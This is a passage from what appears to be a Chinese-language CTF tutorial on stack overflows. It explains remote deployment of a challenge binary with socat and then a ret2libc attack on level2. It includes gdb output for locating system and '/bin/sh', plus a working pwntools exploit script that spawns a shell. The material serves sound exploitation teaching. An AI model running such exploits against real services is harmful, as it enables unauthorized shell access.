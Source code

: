 有可能脚本还是不能成功getshell，很大概率是ret的地址错了。我们再一次查找地址，这次加载的最新的core文件（后缀大的）。

![](https://raw.githubusercontent.com/skyedai910/Picbed/master/img/20191107092018.png)

替换为该地址，即可。

除了本地调试，还有远程部署的方式，如下，将题目绑定到指定端口上：

```
socat tcp-l:10001,fork exec:./level1
```

payload除了将p = process(“./level1”)改为p = remote(“127.0.0.1”, 10001)外，ret的地址还会发生改变。解决方法还是采用生成core dump的方案，然后用gdb调试core文件获取返回地址，即可远程getshell。



### level 2  - ret2libc 绕过 DEP 防护

使用``checksec``检查题目``level2``，发现打开了NX保护（栈不可执行），也就是说不能像上一题将shellcode写到栈上后执行。

每个程序都会调用函数库``libc.so``，而shellcode的执行效果等于``system("/bin/sh")``，问题就是如何获得system和"/bin/sh"的地址。

我们关闭了系统的ASLR，函数在内存的地址不会变换，字符串也是固定的。这时可以使用gdb进行调试，通过``print``和``find``命令查找。

gdb打开后，首先在main函数上打下断点，然后运行程序，让libc.so函数加载到内存中。使用``print system``获取system函数的真实地址；使用``print __libc_start_main``获取libc.so起始地址。使用``find [起始地址],[+搜索长度],[字符串]``获取"/bin/sh"内存地址。

```shell
$ gdb level2
'''
gef➤  b main
Breakpoint 1 at 0x8048430
gef➤  r
Starting program: /home/skye/rop/level2/level2
Breakpoint 1, 0x08048430 in main ()
gef➤  print system
$1 = {int (const char *)} 0xf7e19200 <__libc_system>
gef➤  print __libc_start_main
$2 = {int (int (*)(int, char **, char **), int, char **, int (*)(int, char **, char **), void (*)(void), void (*)(void), void *)} 0xf7df4d90 <__libc_start_main>
gef➤  find 0xf7df4d90,+2200000,"/bin/sh"
0xf7f5a0cf
warning: Unable to access 16000 bytes of target memory at 0xf7fb7cd7, halting search.
1 pattern found.
```

本地EXP

> 函数、gadget等地址，可能因电脑不同而不一致。请动手操作，获取本机相关地址后，自行替换

```python
#coding:utf-8
from pwn import *

context.log_level = 'debug'
p = process("./level2")

system_addr = 0xf7e19200
binsh_addr = 0xf7f5a0cf
ret = 0xdeadbeef

payload = 'a'*140 + p32(system_addr) + p32(ret) + p32(binsh_addr)

p.send(payload)
p.interactive()
```
